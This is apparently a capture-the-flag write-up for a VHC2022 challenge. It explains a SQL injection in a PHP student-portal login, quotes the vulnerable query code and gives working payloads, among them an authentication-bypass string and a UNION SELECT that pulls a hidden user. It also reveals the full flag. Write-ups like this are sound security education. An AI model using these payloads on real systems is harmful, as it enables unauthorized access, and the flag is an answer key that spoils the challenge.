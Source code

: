 # VinUni's Student Information System

VinUni SIS's source code has been recently disclosed in public. It has become a target of a notorious hacker crew, VinUni Hacking Club. You are an intern of this crew, try to exploit the website to become the official member!

Note: The flag is divided into two parts.

Challenge URL: http://ctflag.vhc.asia:12215/

## Techniques

PHP + SQL Injection

## Solution

### Finding the first part

As we refer to the [PHP source code](http://ctflag.vhc.asia:12215/thesis.php?source), we find the following snippet.

```php
<?php if ($_SESSION["username"]=="administrator"){ ?>
    <h1 class="corb-flag"><?php echo $flag; ?></h1>'
<?php } ?> 
```

And how can we obtain the value for `$_SESSION["username"]`?

```php
$query = "SELECT username FROM users WHERE username = '" . $_POST['username'] . "' and password = ?";

// ...

// Bind password param
$query->bind_param("s", $_POST['password']);
$query->execute();
$query->bind_result($user);
$query->fetch();

// Check if a user does exist
if ($user != NULL) {
    session_start();
    $_SESSION['is_logged_in'] = true;
    $_SESSION['username'] = $user;
} else {
    $error = true;
    $error_msg = "<strong>Wrong!</strong> Username/Password is invalid.";
}
```

We can apply a SQL Injection attack to the login query, by setting `username=administrator` and omit the rest by commenting out.

We can supply the below values to the login form (leave the `password` field blank)

![login form 1](login-1.png)

During the event, initially, I used `administrator' or '=` instead, but it yields the same behavior anyway.

The first part of the flag is `VHC2022{m3_c4N_SqLi_`.

![flag 1](flag-1.png)

### Finding the second part

A hint is given in the previous part that we need to find a way to login 'secretly'.

When we apply the same previous technique for the username `secretly, secret, the_secret_user`, etc., it doesn't work. It implies that such usernames do not exist in the `users` table.

Again, look at the PHP source code but the SQL query test comments.

```php
// Test:
// $query = "SELECT _faculty1 FROM the_faculty_table"
// $query = "SELECT _faculty2 FROM the_faculty_table"
// $query = "SELECT the FROM the_faculty_table"
// $query = "SELECT the_menu_user FROM the_canteen_table";
// $query = "SELECT the_ceo_user FROM the_vingroup_table";
//
// $query = "SELECT the_secret_user FROM the_secret_table";
// $query = "SELECT the_guest_user_1 FROM the_guest_table";
// $query = "SELECT the_CFO_user FROM the_cbm_table";
// $query = "SELECT V202145001 FROM the_students_table"
// $query = "SELECT V202000001 FROM the_students_table"
// $query = "SELECT V202000002 FROM the_students_table"
// $query = "SELECT V202000003 FROM the_students_table"
// $query = "SELECT V202000004 FROM the_students_table"
// $query = "SELECT V202000005 FROM the_students_table"
// $query = "SELECT V202000006 FROM the_students_table"
```

There is a `the_secret_user` in the `the_secret_table` table. How can we bring it to the SQL query result?

We can use a UNION query!

```sql
' UNION SELECT the_secret_user FROM the_secret_table #
```

Type this in the `username` field, and voilà!

![flag 2](flag-2.png)

The second part of the flag is `m3_4_r34L_h4ck3r!}`.

## The Flag

`VHC2022{m3_c4N_SqLi_m3_4_r34L_h4ck3r!}`